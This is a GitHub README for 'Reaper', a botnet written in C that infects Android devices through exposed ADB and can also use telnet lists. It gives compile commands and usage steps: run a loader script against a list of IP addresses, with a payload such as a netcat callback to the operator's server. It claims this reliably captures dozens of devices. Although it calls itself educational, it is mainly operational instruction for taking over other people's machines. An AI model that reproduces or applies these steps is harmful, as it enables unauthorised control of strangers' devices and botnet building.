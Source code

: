 <h1 align="center">
	<img src="https://static.thenounproject.com/png/4050176-200.png" width="150px"><br>
    Reaper - An ADB-based botnet written in C.
</h1>
<p align="center">
	Reaper is an ADB-based botnet that lets you control the devices you infect, execute commands, and contains extra tools for playing around. It isn't just limited 
	to ADB, it can be used as a telnet botnet, or a regular botnet.
</p>

<p align="center">
	<a href="https://deno.land" target="_blank">
    	<img src="https://img.shields.io/badge/Version-1.0.0-7DCDE3?style=for-the-badge" alt="Version">
</p>

## Why?

Here are few reasons why I made this:
```
- I wanted to learn more about botnets.
- I wanted to make something that will help other people understand and learn more about botnets.
- I wanted to make my own from scratch, because most botnets that are available on github are all variants of mirai or qbot.
```
Extra Facts:
```
- Yes, I know, I could've used epoll, but I didn't want to make things super-complicated and annoying.
- No, this does not contain any DDoS methods, If you want to customize this and add your own, then you are free to do so.
```

## Installation
```
gcc -o reaper reaper.c -lpthread -lcurl
gcc -o client client.c
```

## Usage
After you have authenticated with the botnet and are waiting for connections, run this command -> `python3 loader.py droid.txt`. Make sure you have edited in your payload in the loader script. (It can be something as simple as `nc <serverip> 1337`) Wait around 5-15 minutes, and you should have devices connected. Even though the custom list I made is small and only has 96 IP's, on average, it pulls around 25 - 50 devices. Please remember, you don't have to limit yourself to only android devices, if you want to use a telnet list, it will also work.

## Screenshots
![Screenshot_2021-08-21-05-36-18_922x559](https://user-images.githubusercontent.com/86132648/130317740-f9882527-6632-4529-b776-dd224e7bc6ef.png)
![Screenshot_2021-08-21-05-01-41_816x262](https://user-images.githubusercontent.com/86132648/130334806-4fe08963-f442-4104-bd5a-0f6c7b1b3741.png)

## Credits
```
https://github.com/0x1CA3
```
### Contributions 🎉
###### All contributions are accepted, simply open an Issue / Pull request.
